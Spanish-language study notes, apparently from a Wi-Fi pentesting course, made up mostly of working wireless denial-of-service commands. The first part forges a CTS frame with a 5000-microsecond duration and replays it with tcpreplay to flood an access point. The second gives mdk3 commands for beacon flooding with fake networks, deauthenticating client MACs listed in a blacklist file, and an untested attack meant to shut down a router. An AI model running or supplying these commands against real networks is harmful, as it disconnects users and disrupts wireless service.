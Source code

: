 	sudo apt install ghex -y --> abre en hexadecimal la captura guardada
	sudo ghex ctsframe.pcap > /dev/null 2>&1 & 
	disown

![Alt text](IMG-Marco-CTS.png)
	
	No refleja la duración, por ende no es bueno capturarlo con airodump y es mejor con wireshark
	sudo wireshark > /dev/null 2>&1 &
	disown
	filtramos con "wlan.fc.type_subtype=0x28" y guadamos el paquete con extesión pcap
	sudo ghex ctsframew > /dev/null 2>&1 & --> abre el paquete en hexadecimal
	python --> corremos para comprobar los valores hexadecimales
	0x0076
	python3 --< corremos para obtener un hexadecimal
	hex(5000) --> obtener 5000 microsegundos  0x1388
	cambiamos los microsegudos de ctsframew.pcap
	sudo wireshark  ctsframe.pcap > /dev/null 2>&1  --> vemos los cambios a 5000 microsegundos
	sudo wireshark > /dev/null 2>&1 & --> abrimos wireshark para capturar los paquetes 
	disown
	sudo tcpreplay --intf1=wlan0 --topspeed --loop=2000 ctsframew.pcp 2>/dev/null --> replica pauetes del ctsframew.pcap hacia wifi-vic o punto de acceso y con wireshark abierto veremos como sucede aquello
	sudo wireshark > /dev/null 2>&1 & --> abrimos wireshark para capturar los paquetes modificados del ctsframw.pcap el cual inunda el punto de acceso
	disown
---
### ataque beacon y dissasosation con mdk3 (activo)
	satura con puntos de accesos falsos a los clientes, oblingadolos a desconectarse devido a la saturación del access ponit que pasan por mismo canal
	for i in $(seq 1 10); do echo $i; done
	for i in $(seq 1 10); do echo "Networkfree"$i >> redes.txt; done
	sudo airodump-ng wlan0 --> escaneamos para ver que que canal inundar
	sudo mdk3 wlan0 b -f redes.txt -a -s 1000 -c 1 --> ataca con el deacon creando varios puntos de accesp en un mismo canal
	sudo mdk3 wlan0 b -c 1 --> crea accesos ramdom, es decir aleatorios
	ataque dissasosation implica la dedautenticación dirigida, donde se puede gesitionar un archivo de black o white list, iyectando clientes.
	sudo airodump-ng -c 1 --essid nombre-red wlan0 --> visualiza el tráfico poro un unico canal y un access point más sus hosts conectados
	 sudo mdk3 d --> desautentica a hosts con un black o white list
	 creamos un archivo con las macs de host a desautenticar
	 sudo nano blacklist
	 sudo mdk3 wlan0 d -w blacklist -c 1
	 sudo mdk3 wlan0 m -t mac-access-point --> supuestamente apaga un router pero no ha sido probado